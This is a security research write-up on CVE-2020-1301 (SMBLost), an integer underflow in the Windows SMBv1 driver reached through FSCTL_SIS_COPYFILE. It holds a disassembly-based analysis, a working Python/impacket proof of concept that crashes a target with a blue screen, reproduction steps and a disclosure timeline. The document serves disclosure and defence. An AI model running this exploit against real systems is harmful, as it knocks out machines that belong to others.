


Diving into the SMBLost vulnerability
=====================================
*CVE-2020-1301 (DoS / RCE)*
--------------------------

*by Nicolas Delhaye, Vulnerability Researcher [@_Homeostasie_](https://x.com/_homeostasie_)*

# Introduction
SMB (Server Message Block) has been recently highlighted with the CVE-2020-0796, also known as *SMBGhost*. This vulnerability is located in the Microsoft Server Message Block 3.1.1 (SMBv3) protocol and only affects new operating systems, from the Windows 10 Version 1903 to the Windows 10 Version 1909. Due to the fear of the new “wormable” attack on SMBv2/v3, companies could make the mistake of temporarily disabling the SMBv2/v3 version in favour of the SMBv1. Such action would go against the Microsoft recommendation of the CVE-2020-0796 which consists to disable only the SMBv3 compression. But more generally, Microsoft recommends that you do not reinstall SMBv1. This older protocol has known security issues regarding ransomware and other malware. For example, we can remember both the “Eternal Blue” exploit and the way *Wannacry* spread.

As part of this article, we will confirm Microsoft’s advice through our recent discovery about a new SMBv1 vulnerability which impacts probably all versions of Windows. The latter comes from a specially crafted SMB_COM_NT_TRANSACT request that leads to an integer underflow issue. This bug causes an Out-of-Bound kernel write from data under the attacker’s control. Hence, the size is not. Therefore, getting a Remote Code Execution (RCE) seems conceivable but it will probably be difficult to make it reliable. 

Overall, this CVE-2020-1301, named *SMBLost*,  is much less harmful than the *SMBGhost* or the “Eternal Blue” vulnerabilities because it requires two significant prerequisites:

- The first is the need to have user credentials to connect to a remote share folder. 
- The second is less common. It would seem that a partition must be shared on the server such as "c:\", "d:\" and so on. However, even if such a configuration is sometimes done to serve specific requirements, we are not completely sure that is the only way to reach the vulnerability.

This vulnerability analysis has been achieved from the version 10.0.19041.1 of ***srv.sys*** driver. 


During the entire article, the SMBv1 driver has been retrieved from the last Windows Insider Preview (WIP), which means that all versions of Windows could be affected.

*Disclaimer: This article is intended to share our recent research on SMBv1 only from a security perspective as well as an educational purpose. We will not be responsible for any use or misuse of this analysis such as this technical report or the provided proof of concept.*

# Vulnerability Analysis
This chapter will provide the approach used to discover this vulnerability as well as a full understanding of the issue. Accordingly, the SMBv1 commands and subcommands will be briefly reviewed before going on the real CVE-2020-1301’s involved commands. In particular, the reader might learn that sending IOCTL/FSCTL to a file hosted by a remote server is a native SMB functionality.

## SMBv1 commands
SMBv1 is a rich and complex network communication protocol providing features such as a fine-grained access to shared resources (files, printers or serial ports) and an authenticated inter-process mechanism (named pipes) which is widely used for the Microsoft’s own implementation of DCE/RPC over SMB, known as MSRPC. 

Therefore, the SMBv1 protocol offers about 80 specific commands. The most common you have probably encountered are the following:

- SMB_COM_CREATE_DIRECTORY (0x00) and SMB_COM_DELETE_DIRECTORY (0x01)
- SMB_COM_OPEN (0x02) and SMB_COM_CLOSE (0x04)
- SMB_COM_FLUSH (0x05) and SMB_COM_DELETE (0x06)
- SMB_COM_READ (0x0A) and SMB_COM_WRITE (0x0B)
- SMB_COM_TREE_CONNECT (0x70) and SMB_COM_WRITE_TREE_DISCONNECT (0x71)
- As well as many others

Furthermore, some of these SMBv1 commands may contain subcommands such as:

- The Transaction Subcommands in part of SMB_COM_TRANSACTION (0x25)
- The Transaction Subcommands in part of SMB_COM_TRANSACTION2 (0x32)
- The NT Transact Subcommands in pat of SMB_COM_NT_TRANSACT (0xA0)

And as if that were not enough, a subcommand may also contain subcommands, that is sub-subcommands. Considering this large attack surface, it will be like looking for a needle in a haystack. However, while reading the table of contents about MS-CIFS document **[1]**, one command has caught my attention. The NT_TRANSACT_IOCTL sounds familiar to people dealing with kernel drivers. Actually, a vulnerability researcher who targets software products based on the Windows OS, will look for the presence of kernel drivers. This kind of component is often a good candidate for finding a local privilege escalation (LPE). The main approach is to deal with the driver’s IOCTLs. Thus, diving into NT_TRANSACT_IOCTL command seems a logical entry point to find out a remote Denial of Service or, better yet, a Remote Code Execution (RCE) with a privilege escalation.

Thus, in the next chapter, we will focus on the SMB_COM_NT_TRANSACT command with the NT_TRANSACT_IOCTL subcommand. This request is used to send an IOCTL or a FSCTL (File System Control) to a file server.

## The vulnerable commands combo
The SMB_COM_NT_TRANSACT command was introduced in the NT LAN Manager dialect. This request is sent by a client to specify operations on the server such as file open, file create, device I/O control, notify directory change as well as set and query security descriptors. 

In the previous chapter, we have seen that the SMB_COM_NT_TRANSACT command is composed of a list of subcommand codes, also known as “NT Trans subcommand” codes. These subcommands are initially specified in *section 2.2.2.2* of [MS-CIFS] **[1]**. Then, additional codes have been added in section 2.2.2.2 of [MS-SMB] [2]. Finally, a total of nine commands are available. Among these, one in particular interest us, which is the NT_TRANSACT_IOCTL.

In this vulnerability report, we will not dissect all the fields belonging to the SMB header or the SMB_COM_NT_TRANSACT/ NT_TRANSACT_IOCTL structures. Only the most significant will be highlighted. 

First, it starts with the command field of the SMB header. It is a one-byte code that will be set with the value 0xA0, corresponding to the SMB_COM_NT_TRANSACT request. Such a command involves two SMB blocks:

- A *Parameter Block* which holds a message-specific parameters structure, named *SMB_Parameters*. It will contain both the NT_TRANSACT_IOCTL (0x02) subcommand code and the IOCTL/FSCTL code
- A *Data Block* which holds a message-specific data structure, named *SMB_Data*. It will contain useful data for the required IOCTL/FSCTL operation

Then, the NT Transaction IOCTL subcommand, also introduced in the NT LAN Manager dialect, is intended to allow IOCTL and FSCTL functions to be transferred transparently from client to server. In general terms, this command is useful for sending platform-specific or implementation-specific information to the server.

Please see the figure below, the description of the NT Transaction IOCTL from an extract of the transaction codes table **[1]**:


The IOCTLs and FSCTLs may be global or specific to the underlying object store of the server. That is why they are listed both in [MS-CIFS] **[1]** and [MS-SMB] **[2]**.

The *Parameter Block* of a NT_TRANSACT_IOCTL request is composed two important fields:

- SMB_COM_NT_TRANSACT.Function field which is the SMB_COM_NT_TRANSACT subcommand
- SMB_COM_NT_TRANSACT.Setup field which indicates what IOCTL/FSCTL must be called

Please see the figure below, the Setup structure as part of this NT_TRANSACT_IOCTL request:


The *FunctionCode* identifies the control code of the FSCTL/IOCTL method, which could be seen like a subcommand of the NT_TRANSACT_IOCTL command.

At this time, we would be well advised to resume all the commands and subcommands involved in such a request. Please see the following figure below:



Note the first occurrence of the 0x00090100 value, that is simply the FSCTL code which will be used for triggering the vulnerability.

From the paragraph 2.3 FSCTL structures of [MS-FSCC] **[3]**, we retrieve the following description:
```
A process invokes an FSCTL on a handle to perform an action against the file or directory associated with the handle. When a server receives an FSCTL request,  
it should use the information in the request, which includes a handle and, optionally, an input data buffer, to perform the requested action. How a server   
performs the action requested by an FSCTL is implementation-dependent.
```

There are about 40 FSCTLs, which is a lot of reverse engineering to dive into each of them. As a vulnerability researcher, one personal methodology I apply is to always start from the end. This time, it paid off. There is probably a little bit of luck because the vulnerable FSCTL is just the second from the end.

Please see the figure below, a short extract of the FSCTL table [MS-FSCC] **[3]**:


From the above table, the reader can now figure out the name of the vulnerable FSCTL (***0x90100***), that is ***FSCTL_SIS_COPYFILE***.

In fact, the SMB_COM_NT_TRANSACT, NT_TRANSACT_IOCTL and FSCTL_SIS_COPYFILE combination refers to a FSCTL_SIS_COPYFILE Request **[4]**.

Finally, please see the figure below, a network capture which highlights all FSCTL_SIS_COPYFILE’s significant fields:


The last green border corresponds to the useful data which will be handled as part of this FSCTL. The bug will occur while handling this byte stream. So, let’s dive into the FSCTL_SIS_COPYFILE data.

## The FSCTL_SIS_COPYFILE vulnerability
First of all, SIS is the acronym for Single-Instance Store. It refers to an architecture designed to maintain duplicate files with a minimum of disk, cache and backup media overhead. This mechanism is similar to an incremental backup. Once an initial full backup has been achieved, only new or modified files are actually copied to the backup device.

As previously explained, this CVE-2020-1301 involves a SMB_COM_NT_TRANSACT request with the NT_TRANSACT_IOCTL subcommand which in turn requires a subcommand, that is the FSCTL. In this context, the FSCTL_SIS_COPYFILE (0x90100) asks the server to copy the specified source file to the specified destination file by creating a SIS link instead of actually copying the file data. Note this FSCTL can be issued against either a file or directory handle.

Such a request contains a SI_COPYFILE data element. Please see the figure below, its representation:


- ***SourceFileNameLength*** is a 32-bit unsigned integer that contains the size, in bytes, of the SourceFileName element, including a terminating-Unicode null character

- ***DestinationFileNameLength*** is a 32-bit unsigned integer that contains the size, in bytes, of the DestinationFileName element, including a terminating-Unicode null character

- ***Flags*** is a 32-bit unsigned integer that contains zero or flag values

- ***SourceFileName*** is a null-terminated Unicode string containing the source file name

- ***DestinationFileName*** is a null-terminated Unicode string containing the destination file name

Before going forward to the vulnerability location, we will study step by step how this issue can be triggered.

Please see figure 8 below, the SI_COPYFILE values that have been set to trigger the vulnerability:


The issue will occur because the *DestinationFileNameLength* field is set to one byte. Therefore, the *DestinationFileName* field is also composed of one 8-bit character (one byte). Conceptually, the code which handles the FSCTL_SIS_COPYFILE request should reject this frame. Actually, as the destination file name is a Unicode string, the filename length must be an even number. Because of this programming mistake, all security checks on the *DestinationFileNameLength* are successfully passed. The latter will be neither null or above the total of received data length. 

Please see the figure below, the disassembly code which shows us these checks:



Once these checks are passed, the driver tests whether both the source and the destination filenames are well null-terminated Unicode string. In our specific case, the *DestinationFileName*’s one-byte length leads to a misunderstanding which allows to check the last 2 bytes of the source filename instead of those of the destination filename.

Please see the figure below, the disassembly code that leads to this unexpected behaviour:


The rdx register points to the destination filename which comes from the FSCTL_SIS_COPYFILE request. The length of this file name equals to one byte, so the *shr* instruction results to the following calculation *1 >> 2*. Accordingly, the rax register will equal to 0. The *cmp* instruction aims to check if the last character of the filename is NULL. In this context, this instruction results to compare the last two bytes of the source filename due to the subtraction with *-2*. Indeed, we get the following results:

```
[rdx+rax*2-2] <=> [pDestinationFileNameBegin+0*2–2] <=> [pSourceFileNameEnd]
```

Then, the driver should build the full path of the source and destination filenames, that will be prefixed with the share name. In fact, this is the most significant part for triggering the vulnerability. Indeed, in order to reach the vulnerability, the share name must have, at all costs, a backslash character ("\") before the null-terminating character. After attempting several scenario of files sharing, a way consists to share a partition like "c:\" or "d:\". However, the reader is free to provide me other ways to achieve this behaviour. 

Please see the figure below, a disassembly code which shows the two execution paths according to the last character of the share name, that is either the NULL or the backslash character:


As soon as the "backslash" execution path is used, we are getting closer and closer to the consequences of the bug. 

Please see the figure below, the disassembly code that highlights the integer underflow:


As you can see in figure above, the value *2* is subtracted from the *ebx* register, which represents the length of the destination filename. As this length is set to one byte, we get the *ebx* register equals to the 0xffffffff value. That also means -1. Then, this computed length is stored in the local variable, labelled *l_dwDestinationFilenameLength*. Finally, the *SrvAllocatePagedPool()* function is called to allocate a destination buffer from the paged pool.

Please see the figure below, the call to memcpy function that leads to a pool overflow:


The crash will occur because the driver attempts to copy 0xffffffff bytes from the destination filename, which is under our control, to the previously allocated SMB1 buffer. The latter is used as a memcpy’s destination buffer.

Please see the figure below, a screenshot of a Windbg session before the memcpy function is called:


In the figure above, we can notice:

- Highlighted in the green border, the destination buffer which is allocated from the paged pool with a 260 bytes’ length
- Highlighted in the blue border, the beginning of the SI_COPYFILE data which are sent from our especially crafted request
- Highlighted in the yellow border, the source buffer with some junk data in order to illustrate that we can control what is copied
- Highlighted in the red border, the length of data that will be recopied (0xffffffff); This value is not under our control

In this context, we get a BSOD (Blue Screen of Death). However it seems reasonable to consider a RCE (Remote Code Execution) even though it will probably be difficult to make it reliable.

# Proof of Concept
This code relies on the use of *impacket* library to ease the handling of SMB packet over the network.

Finally, please see the figure below, the proof of concept leading to a Denial of Service:

```python
#!/usr/bin/python

from scapy.all import *
from impacket import smb

import sys, getopt

def main(argv):
    try:
        opts, args = getopt.getopt(argv,"ht:u:p:",["target=", "username=", "password="])
    except getopt.GetoptError:
        print './CVE-2020-1301_poc.py -t <target>'
        sys.exit(2)

    target_ip = "192.168.1.1"
    username = ""
    password = ""

    for opt, arg in opts:
        if opt == '-h':
            print './CVE-2020-1301_poc.py -t <target>'
            sys.exit()
        elif opt in ("-t", "--target"):
            target_ip = arg
        elif opt in ("-u", "--user"):
            username = arg
        elif opt in ("-p", "--password"):
            password = arg

    '''
    IOCTL Code: 0x090100 is FSCTL_SIS_COPYFILE
    '''
    s = smb.SMB('*SMBSERVER', target_ip)
    s.login(username, password, '')
    tid = s.tree_connect_andx(r"\\*SMBSERVER\C") 
    print "tid = %d" % tid

    fName = 'share\\1.txt'
    fid = s.open_andx(tid, fName, smb.SMB_O_OPEN, smb.SMB_ACCESS_READ)[0] 
    print "fid = %d" % fid

    try:       
        s2 = smb.NewSMBPacket()

        cmd = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
        cmd['Parameters'] = smb.SMBNTTransaction_Parameters()
        cmd['Data']       = smb.SMBNTTransaction_Data()

        IoctlCode = 0x90100
        setup =  smb.pack('<L', IoctlCode)
        setup += smb.pack('<H', fid)
        setup += 'a' * 2
        name = ''
        param = ''  

        size = 10
        data =  smb.pack('<L', size)        # SourceFileNameLength
        data += smb.pack('<L', 1)           # DestinationFileNameLength
        data += smb.pack('<L', 0x00000002)  # Flags
        data += '\x00' * (size-1)           # SourceFileName (variable)
        data += '\x00'                      # DestinationFileName (variable)
        data += '\x00\x00'
        data += '\x41' * 16
        data += '\x42' * 16
        data += '\x43' * 16
        data += '\x44' * 16
        data += 'Exploit me! ;-)'

        cmd['Parameters']['MaxSetupCount']      = 0x55
        cmd['Parameters']['TotalParameterCount']= len(param)
        cmd['Parameters']['TotalDataCount']     = len(data)
        cmd['Parameters']['MaxParameterCount']  = 0x55
        cmd['Parameters']['MaxDataCount']       = 0x55
        cmd['Parameters']['ParameterCount']     = len(param)
        cmd['Parameters']['ParameterOffset']    = 0x20+0x03+0x1c+len(setup)+len(name) 
        cmd['Parameters']['DataCount']          = len(data)
        cmd['Parameters']['DataOffset']         = 0x20+0x03+0x26+len(setup)+len(name)+len(param)
        cmd['Parameters']['Function']           = 0x0002
        cmd['Parameters']['Setup']              = setup

        cmd['Data']['Pad1'] = ''
        cmd['Data']['NT_Trans_Parameters'] = param
        cmd['Data']['Pad2'] = ''
        cmd['Data']['NT_Trans_Data'] = data

        s2.addCommand(cmd)
        s2['Tid'] = tid
        smb.SMB.sendSMB(s,s2)
    except smb.SessionError, e:
        print e

if __name__ == "__main__":
   main(sys.argv[1:]) 
```

# Vulnerability Reproducing
Please see below steps to reproduce the Denial of Service:

1. If not, enable the SMBv1 on the targeted machine. From PowerShell, type the following command:
   *Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol*
1. Share a disk file (partition). The provided exploit requires the "C:\" directory
1. Create the "1.txt" file under "C:\share\" to get "C:\share\1.txt"
1. This POC is developed in Python and relies on Impacket library: Copy and use the code above.  
    An example of use is as follow: *./CVE-2020-1301_poc.py -u user1 -p user1 -t 192.50.13.37*
1. The targeted machine has probably crashed. If not, try again

# Demonstration
This demonstration has been tested on Windows 10 Pro version 2004 which is part of the Windows Insider Preview.


The following command should trigger the vulnerability.

```
./CVE-2020-1301.py -u user1 -p user1 -t 192.50.13.37 
```

As soon as the vulnerability is triggered, we see the following BSOD in the following figure:


For further analysis, more accurate information can be retrieved from a Windbg session. In particular, information like the register values or the call stack.


# Disclosure Timeline
Airbus CyberSecurity follows the widely accepted 90-day vulnerability disclosure policy; meaning Airbus CyberSecurity won’t engage any public communication about the reported vulnerability during that time frame without any prior public communication or fix. Please note that Airbus CyberSecurity’s general position is that as soon a working and active relationship is established, there is no need to blindly push for the 90-day vulnerability disclosure if it’s not necessary.

Microsoft reacted quickly to this issue both to confirm the vulnerability and fix the issue.

*March 28th, 2020*: Vulnerability is reported to MS

*April 22th, 2020*: Status is set to “Develop” from MS

*June 9th, 2020*: Vulnerability is fixed under the CVE-2020-1301

*June 9th, 2020*: Airbus publishes the report associated with the CVE-2020-1301

# References
**[1]** [MS-CIFS]: Common Internet File System (CIFS) Protocol  
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/d416ff7c-c536-406e-a951-4f04b2fd1d2b

**[2]** [MS-SMB]: Server Message Block (SMB) Protocol  
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/f210069c-7086-4dc2-885e-861d837df688

**[3]** [MS-FSCC]: File System Control Codes  
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/efbfe127-73ad-4140-9967-ec6500e66d5e

**[4]** FSCTL_SIS_COPYFILE Request  
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/2ceb5108-f6e4-484e-be43-863a16a5b69a
